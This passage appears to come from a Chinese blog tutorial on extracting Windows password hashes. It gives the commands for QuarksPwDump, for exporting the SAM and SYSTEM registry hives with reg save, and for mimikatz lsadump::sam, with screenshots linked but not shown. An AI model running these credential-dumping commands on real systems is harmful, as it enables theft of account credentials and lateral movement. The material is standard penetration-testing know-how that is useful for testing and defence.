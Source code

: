 

需要管理员权限



```
QuarksPwDump.exe --dump-hash-local
```




![](https://img-blog.csdnimg.cn/20200205114525584.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 通过SAM和System文件读取密码Hash



需要管理员权限执行，通过reg的save选项将注册表中的SAM、System文件导出到本地磁盘。



```
reg save hklm\sam sam.hive      
reg save hklm\system system.hive
```




![](https://img-blog.csdnimg.cn/20200205145555319.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**使用mimikatz从sam.hive和system.hive文件中获得NTLM Hash**



```
lsadump::sam /sam:sam.hive /system:system.hive
```




![](https://img-blog.csdnimg.cn/20200205145948937.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**也可以直接使用mimikatz读取本地SAM文件内容，读取密码Hash**



```
privilege::debug      
token::elevate      
lsadump::sam
```




![](https://img-blog.csdnimg.cn/20200205150444768.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 使用mimikatz离线读取lsass.dmp文件
